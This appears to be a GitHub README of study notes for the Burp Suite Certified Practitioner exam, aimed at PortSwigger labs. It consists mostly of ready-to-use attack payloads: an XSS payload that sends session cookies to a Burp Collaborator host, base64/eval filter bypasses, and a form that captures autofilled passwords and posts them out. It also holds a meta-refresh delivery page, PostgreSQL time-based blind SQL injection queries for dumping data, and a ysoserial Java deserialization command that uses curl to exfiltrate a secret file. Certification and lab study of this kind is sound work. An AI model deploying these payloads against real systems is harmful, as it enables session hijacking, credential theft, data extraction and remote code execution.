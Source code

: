 # <img src="https://icons.iconarchive.com/icons/goescat/macaron/1024/burp-suite-icon.png" width=25> BSCP Methodology

## Table of Contents
* [Useful Burp extensions](#useful-burp-extensions-some-of-them-requires-burpsuite-pro)
* [Cross-Site Scripting Section](#cross-site-scripting-section)
   * [Bypass restrictions method 1](#bypass-restrictions-method-1)
   * [Capture credentials from auto-filled forms](#capture-credentials-from-auto-filled-forms)
   * [DOM XSS](#dom-xss)
* [Exploit Server Section](#exploit-server-section)
  * [Send exploit to victim (Reflected XSS in search bar)](#send-exploit-to-victim-reflected-xss-in-search-bar)
* [SQL Injection Section](#sql-injection-section)
  * [PostgreSQL](#postgresql)
    * [Time Based](#time-based)
  * [MySQL](#mysql)
  * [Oracle](#oracle)
  * [SQLite](#sqlite)
* [Insecure Deserialization Section](#insecure-deserialization-section)
  * [Java](#java)
## Useful Burp extensions (some of them requires burpsuite pro)
- Hackvertor
- Copy As Python-Requests
- Java Deserialization Scanner | [ysoserial.jar](https://github.com/frohoff/ysoserial) for manual exploitation<b>(prefer because sometime this extension it doesn't work as it should)</b>
- HTTP Request Smuggler


## Cross-Site Scripting Section
When the exam involve XSS for the user part start search about javascript file in the source code or use the [DOM Invader](#dom-xss) into search forms.<br>
You can find an injection point with some payloads from this repository - [PayloadsAllTheThings XSS Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection) <br>
Also here - [XSS Payloads](http://www.xss-payloads.com/payloads-list.html?a#category=all)

### Bypass restrictions method 1
Sometimes we found a XSS injection point but with some keyword restrictions, so we have to bypass these restrictions with some techniques like below.
1. Generate the base64 payload

```bash
echo -n "document.location = 'http://<BURP-COLLABORATOR.NET>/?cookie='+document.cookie" |base64
```

2. Insert the base64 payload into atob function
```javascript
eval(atob("BASE64-PAYLOAD"))
<script>eval(atob("BASE64-PAYLOAD"))</script>
```

### Capture credentials from auto-filled forms
Sometimes we use password managers that fill in forms automatically and with this technique we can grab those credentials just making a small html form.
```javascript
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://zy1cmwt0q8o3vtlolrhvx9nfn6t7hw.burpcollaborator.net',{
  method:'POST',
  mode: 'no-cors',
  body:username.value+':'+this.value
});">
```

### DOM XSS
An awesome google chrome(from burp suite) extension is <b>DOM Invader</b> which you can use it for DOM XSS testing

## Exploit Server Section
#### Send exploit to victim (Reflected XSS in search bar)
With <b>`<meta>`</b> html tag we can redirect the "victim" to our javascript injected search query.
```html
<meta http-equiv="refresh" content='0; URL=https://<LAB_URL>/?search=injection_here' />

<!-- ALL TOGETHER BELOW-->
<meta http-equiv="refresh" content='0; URL=https://<LAB_URL>/?SearchTerm=aa","fd8xsw5l":eval(atob("BASE64-PAYLOAD"))}//' />
```

## SQL Injection Section

### PostgreSQL
#### Time Based
Identify time based
```sql
select 1 from pg_sleep(5)
;(select 1 from pg_sleep(5))
||(select 1 from pg_sleep(5))
```

Database Dump Time Based<br>

```sql
select case when substring(datname,1,1)='1' then pg_sleep(5) else pg_sleep(0) end from pg_database limit 1
```

Table Dump Time Based <br>

```sql
select case when substring(table_name,1,1)='a' then pg_sleep(5) else pg_sleep(0) end from information_schema.tables limit 1
```

Columns Dump Time Based <br>
```sql
select case when substring(column,1,1)='1' then pg_sleep(5) else pg_sleep(0) end from column_name limit 1
select case when substring(column,1,1)='1' then pg_sleep(5) else pg_sleep(0) end from column_name where column_name='value' limit 1
```


### MySQL

### Oracle

### SQLite

## Insecure Deserialization Section


### Java
If you have `Java Deserialization Scanner` burp extension you can do an active scan(pro version only) and maybe you will find something ;) at least exploit it manually with the below tool.
#### ysoseriar.jar
payloads about `ysoseriar` <br>
<b>Dont forget</b> the below payloads requires url encoding after payload are generated
```bash
java -jar ysoseriar.jar CommonsCollections7 'curl -d @/home/carlos/secret k3of2usea0s8kzkwsqnme9bj2a83ws.burpcollaborator.net' | gzip|base64 

java -jar ysoseriar.jar <PAYLOAD> 'COMMAND' | encoding
```
For more information about payloads and stuff you can find in the ysoserial [official repository](https://github.com/frohoff/ysoserial)
